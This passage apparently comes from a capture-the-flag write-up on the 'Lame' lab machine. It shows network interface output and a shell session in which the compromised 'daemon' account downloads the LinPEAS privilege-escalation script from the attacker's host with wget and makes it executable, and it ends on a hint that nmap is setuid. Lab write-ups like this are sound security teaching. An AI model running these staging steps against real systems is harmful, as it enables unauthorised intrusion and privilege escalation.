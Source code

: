 ```sh
          collisions:0 txqueuelen:1000 
          RX bytes:8488768 (8.0 MB)  TX bytes:152340 (148.7 KB)
          Interrupt:19 Base address:0x2024 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:1284 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1284 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:597781 (583.7 KB)  TX bytes:597781 (583.7 KB)
```
{% endraw %}

<br />
Lookup Linpeas.  Linpeas, if you don't know, is a scripts that will perform a number of checks for privilege escalation and highlight the likely path to privesc.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/lame/linpeas.png" title="linpeas.sh" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
<a href="https://github.com/peass-ng/PEASS-ng/releases/tag/20250113-4426d62e">Linpeas GitHub</a>

<br />
Download the script to your working folder.  Start a python webserver to serve the script.  Transfer the script to the victim machine.

{% raw %}
```sh
daemon@lame:/dev/shm$ wget 10.10.14.29:8000/linpeas.sh
wget 10.10.14.29:8000/linpeas.sh
--07:27:04--  http://10.10.14.29:8000/linpeas.sh
           => `linpeas.sh'
Connecting to 10.10.14.29:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 830,426 (811K) [text/x-sh]

100%[====================================>] 830,426        1.01M/s             

07:27:05 (1.01 MB/s) - `linpeas.sh' saved [830426/830426]

daemon@lame:/dev/shm$ chmod +x linpeas.sh                                                             
chmod +x linpeas.sh
```
{% endraw %}

<br />
Run the linpeas script.  Notice that nmap has the sticky bit.

